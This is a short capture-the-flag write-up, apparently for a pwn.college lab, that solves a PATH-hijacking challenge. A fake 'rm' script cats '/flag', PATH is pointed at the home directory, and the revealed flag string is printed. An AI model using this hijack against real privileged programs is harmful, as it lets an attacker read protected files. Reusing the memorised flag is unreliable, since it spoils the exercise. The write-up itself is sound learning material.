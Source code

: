 Armed with your knowledge, you can now carry out some shenanigans. This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the rm command. But unlike before, it will not print anything out for you.

How can you solve this? You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it. What else can you create?

## Solution : 
- Step 1 : Open ssh
- Step 2 : Make a shebang named rm and then run the commands properly after making sure they are executable
- Step 3 : Copy and paste the flag
In code :
```sh
#!/bin/bash
/run/dojo/bin/cat /flag
```

In terminal :
```sh
hacker@path~hijacking-commands:~$ chmod ugo+x rm
hacker@path~hijacking-commands:~$ PATH="/home/hacker/"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{klvQylVjymsWQSIHm_Oxgi3V7-N.QX3cjM1wSN4AzNzEzW}
```

## Flag : 
```sh
pwn.college{klvQylVjymsWQSIHm_Oxgi3V7-N.QX3cjM1wSN4AzNzEzW}
```

### Reference : 
None

### Notes : 
Learnt how to hijack commands
